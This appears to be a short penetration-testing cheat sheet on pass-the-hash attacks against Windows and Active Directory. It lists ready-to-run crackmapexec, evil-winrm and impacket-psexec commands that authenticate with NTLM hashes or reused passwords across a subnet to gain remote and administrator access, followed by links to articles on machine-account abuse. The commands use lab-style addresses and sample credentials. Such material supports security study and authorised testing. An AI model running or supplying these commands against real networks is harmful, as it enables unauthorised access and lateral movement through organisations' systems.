 # Pass-The-Hash

## with Local Accounts and Domain Accounts

```
crackmapexec smb 192.168.183.0/24 -u "Frank Castle" -H <hash> --local-auth
crackmapexec smb 192.168.183.137 -u "Frank Castle" -p Password1
crackmapexec smb 192.168.183.0/24 -u fcastle -d MARVEL.local -p Password1
evil-winrm -i '10.10.11.129' -u 'Sam.Davies' -p 'Password123'
impacket-psexec domain.local/administrator:MyPasswowrd123@10.10.10.100
```

## with Machine$ Accounts

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts" %}

{% embed url="https://pentestlab.blog/2022/02/01/machine-accounts/" %}
